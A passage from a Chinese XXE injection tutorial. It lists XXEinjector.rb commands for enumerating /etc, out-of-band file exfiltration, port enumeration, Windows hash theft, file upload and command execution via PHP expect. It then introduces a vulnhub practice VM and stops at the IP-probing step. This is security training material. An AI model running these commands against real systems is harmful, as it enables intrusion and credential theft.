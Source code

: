 (1)枚举HTTPS应用程序中的/etc目录
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt –ssl
(2)使用gopher（OOB方法）枚举/etc目录：
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --oob=gopher
(3)二次漏洞利用
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/vulnreq.txt--2ndfile=/tmp/2ndreq.txt
(4)使用HTTP带外方法和netdoc协议对文件进行爆破攻击
ruby XXEinjector.rb --host=192.168.0.2 --brute=/tmp/filenames.txt--file=/tmp/req.txt --oob=http –netdoc
(5)通过直接性漏洞利用方式进行资源枚举
ruby XXEinjector.rb --file=/tmp/req.txt --path=/etc --direct=UNIQUEMARK
(6)枚举未过滤的端口
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --enumports=all
(7)窃取Windows哈希
ruby XXEinjector.rb--host=192.168.0.2 --file=/tmp/req.txt –hashes
(8)使用Java jar上传文件：
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt--upload=/tmp/uploadfile.pdf
(9)使用PHP expect执行系统指令
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --oob=http --phpfilter--expect=ls
(10)测试XSLT注入
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt –xslt
(11)记录请求信息
ruby XXEinjector.rb --logger --oob=http--output=/tmp/out.txt

#4. 真实实战演练
这里选取vulnhub实战虚拟机靶场来进行实战，主要包括以下内容

## 4.1 靶场介绍
Haboob团队为发布的论文“XML外部实体注入 - 解释和利用”https://www.exploit-db.com/docs/45374制作了这个虚拟机，以利用专用网络中的漏洞。

## 4.2 靶场安装
镜像下载链接：https://download.vulnhub.com/xxe/XXE.zip
下载后直接解压导入虚拟机即可。默认NAT模式，DHCP服务会自动分配一个IP地址。

## 4.3 靶场实战演示
![图片](assets/图片29.png)

探测IP